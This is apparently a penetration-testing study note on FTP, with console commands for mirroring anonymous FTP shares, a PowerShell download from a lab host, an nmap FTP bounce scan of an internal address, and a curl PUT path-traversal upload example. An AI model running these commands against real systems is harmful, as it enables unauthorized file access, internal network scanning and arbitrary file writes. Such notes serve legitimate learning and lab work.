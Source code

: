 FTP
############

Date: 2024-11-02 17:28

Status:


Description
*****************

File Transfer Protocol

VsFTP
*****************

VsFTP is the most widely used FTP program

.. code-block:: console

   sudo apt-get install vsftpd

Interesting commands:

-  ``status`` Show information about the server

-  ``debug`` show debugging data

-  ``trace`` Show IP transfer information

-  ``ls -R`` Show recursive listings

Using :ref:`wget <wget>` to download all FTP files:

.. code-block:: console

    wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136

SSL enabled FTP
*****************

If the ftp service has ssl enabled, we can use a client capable of SSL,
bonus is we get to see the cert.

.. code-block:: console

   openssl s_client -connect 10.129.14.136:21 -starttls ftp

Creating a quick/dirty FTP server
**********************************

A quick server using Python can be instantiated with using the pyftpdlib

It can be installed with

.. code-block:: console

   sudo pip3 install pyftpdlib

and started with

.. code-block:: console

   sudo python3 -m pyftpdlib --port 21

To enable the write option you need to add:

.. code-block:: console

   sudo python3 -m pyftpdlib --port 21 --write

On Windows you can leverage the :ref:`Net-Webclient <Net-Webclient>`
program as a client with

.. code-block:: console

   PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')```powershell

FTP Bounce Attack
*****************

By exploiting FTP we can scan another target on the same network that is
not connected to the public internet.

Example: Using **nmap -b** and bouncing off a FTP server

.. code-block:: console

   nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

FTP Exploit examples
**********************************

Example 1:Exploiting a PUT request from Curl

.. code-block:: console

   curl -k -X PUT -H "HOST: <host-ip>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../

References
*****************
